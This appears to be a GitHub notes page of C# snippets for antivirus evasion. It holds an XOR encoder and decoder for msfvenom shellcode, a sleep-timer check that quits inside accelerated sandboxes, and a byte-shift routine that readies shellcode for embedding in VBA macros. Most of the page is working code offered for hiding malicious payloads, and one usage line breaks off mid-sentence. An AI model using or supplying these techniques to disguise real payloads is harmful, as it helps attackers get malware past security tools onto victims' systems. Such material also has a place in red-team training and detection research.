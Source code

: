 ## C# Function to encode 'buf' payload from msfvenom to bypass AV


### Usage: XORencode(buf, 0x5f);  

``` Csharp

#
        public static void XORencode(byte[] _data, byte _key)
        {
            byte[] bufencoded = new byte[_data.Length];
            byte key = _key;



            for (int i = 0; i < _data.Length; i++)
            {
                bufencoded[i] = (_data[i] ^= key);
            }

            StringBuilder hex = new StringBuilder(bufencoded.Length * 2);
            foreach (byte b in bufencoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("Encoded: byte[] buf = new byte[{0}] {{ {1} }}", bufencoded.Length, hex.ToString().TrimEnd(','));
        }
        public static byte[] XORdecode(byte[] data, byte key)
        {
            for (int i = 0; i < data.Length; i++)
            {
                data[i] ^= key; // XOR again to get original
            }

            StringBuilder hex = new StringBuilder(data.Length * 2);
            foreach (byte b in data)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }

            Console.WriteLine("decoded: byte[] buf = new byte[{0}] {{ {1} }}", data.Length, hex.ToString().TrimEnd(','));


            return data;
        }


```



## This is a sleep timer.  Used to delay loading and bypass AV

*** Sleep here is from the win32 API's ***

``` Csharp

    DateTime t1 = DateTime.Now;
    Sleep(2000);
    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
    if(t2 < 1.5)
    {
        return;
    }

```

<br><br>

## VBA obfuscation in C# of shellcode byte array

*** Usage: Take array of bytes from this and 

``` CSharp

  byte[] encoded = new byte[buf.Length];
  for(int i = 0; i < buf.Length; i++)
  {
    encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
  }

  uint counter = 0;

  StringBuilder hex = new StringBuilder(encoded.Length * 2);
 foreach(byte b in encoded)
 {
   hex.AppendFormat("{0:D}, ", b);
   counter++;
   if(counter % 50 == 0)
   {
       hex.AppendFormat("_{0}", Environment.NewLine);
   }
 }
 Console.WriteLine("The payload is: " + hex.ToString());

```
